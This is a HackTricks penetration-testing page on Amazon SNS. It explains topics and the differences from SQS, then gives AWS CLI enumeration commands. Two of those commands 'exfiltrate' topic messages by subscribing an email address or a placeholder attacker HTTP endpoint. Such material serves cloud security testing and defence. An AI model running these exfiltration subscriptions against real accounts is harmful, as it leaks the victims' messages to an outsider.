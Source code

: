 # AWS - SNS Enum

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) is described as a **fully managed messaging service**. It supports both **application-to-application** (A2A) and **application-to-person** (A2P) communication types.

Key features for A2A communication include **publish/subscribe (pub/sub) mechanisms**. These mechanisms introduce **topics**, crucial for enabling high-throughput, **push-based, many-to-many messaging**. This feature is highly advantageous in scenarios that involve distributed systems, microservices, and event-driven serverless architectures. By leveraging these topics, publisher systems can efficiently distribute messages to a **wide range of subscriber systems**, facilitating a fanout messaging pattern.


### **Difference with SQS**

**SQS** is a **queue-based** service that allows point-to-point communication, ensuring that messages are processed by a **single consumer**. It offers **at-least-once delivery**, supports standard and FIFO queues, and allows message retention for retries and delayed processing.\
On the other hand, **SNS** is a **publish/subscribe-based service**, enabling **one-to-many** communication by broadcasting messages to **multiple subscribers** simultaneously. It supports **various subscription endpoints like email, SMS, Lambda functions, and HTTP/HTTPS**, and provides filtering mechanisms for targeted message delivery.\
While both services enable decoupling between components in distributed systems, SQS focuses on queued communication, and SNS emphasizes event-driven, fan-out communication patterns.

### **Enumeration**

```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
    --topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
    --message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
    --topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
    --protocol email \
    --notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
    --protocol http \
    --notification-endpoint http://<attacker>/ \
    --topic-arn <arn>
```

{% hint style="danger" %}
Note that if the **topic is of type FIFO**, only subscribers using the protocol **SQS** can be used (HTTP or HTTPS cannot be used).

Also, even if the `--topic-arn` contains the region make sure you specify the correct region in **`--region`** or you will get an error that looks like indicate that you don't have access but the problem is the region.
{% endhint %}

### Unauthenticated Access

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### Privilege Escalation

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### Persistence

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# References
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
